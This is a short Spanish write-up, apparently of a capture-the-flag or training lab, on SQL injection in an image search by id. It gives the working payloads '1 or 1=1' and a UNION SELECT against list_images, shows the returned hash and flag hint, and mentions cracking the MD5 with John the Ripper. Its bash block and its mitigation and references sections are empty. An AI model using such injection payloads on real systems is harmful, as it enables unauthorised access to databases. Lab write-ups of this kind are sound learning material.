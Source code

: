 # SQL Injection - Images

Misma vulnerabilidad que en [la inyección sql anterior].

## Ataque

En el apartado de búsqueda de imágenes tenemos un buscador de imágenes por id, en este caso la inyección está un poco más obfuscada ya que no imprime por pantalla el error de la query.

De todas formas, si enviamos como input `1 or 1=1`, recibimos todas las imágenes guardadas en la base de datos.

Inyectamos la siguiente query:
```
1 or 1=1 union select title, comment from list_images
```

Nos devuelve esto:
```
ID:  1 or 1=1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

Crackeamos el hash MD5 con **johntheripper**.

```bash

```
## Mitigación

## Referencias